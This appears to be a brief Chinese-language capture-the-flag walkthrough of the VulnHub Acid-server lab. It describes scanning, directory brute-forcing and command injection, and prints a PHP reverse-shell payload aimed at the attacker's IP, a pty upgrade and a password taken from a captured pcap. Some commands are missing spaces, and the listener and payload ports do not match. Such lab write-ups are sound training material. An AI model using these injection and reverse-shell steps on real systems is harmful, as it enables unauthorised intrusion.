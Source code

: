 # VulnHub: Acid-server
- https://www.vulnhub.com/entry/acid-server,125/

## Step 1
nmap掃描虛擬機ip及port，發現位於33447/tcp是開啟狀態，service為http
## Step 2
利用DirBuster暴力掃目錄，從cake.php中找出/Magic_Box
掃/Magic_Box，發現command.php
## Step 3
首先ping172.16.71.1;id發現命令成功注入，嘗試獲取shell
監聽3333port
`$ nc -l 3333`
用php反彈shell成功，最後payload:
`172.16.71.1;php-r '$sock=fsockopen("172.16.71.1",4444);exec("/bin/sh-i<&3 >&3 2>&3");'`
## Step 4
發現su指令無法執行，出現錯誤訊息su:must be run from a terminal
用python調用本地shell
`$ python -c 'import pty;pty.spawn("/bin/bash")'`
## Step 5
查找用戶，發現三個可疑帳號acid、saman、root
`$ cat/etc/passwd`
嘗試找尋用戶的可疑文件
`$ find-useracid2>/dev/null`
發現pcapng可疑流量檔案，下載回本地查看
## Step 6
利用wireshark打開hint.pcapng
找到saman密碼1337hax0r
## Step 7
利用find找到flag.txt，成功！
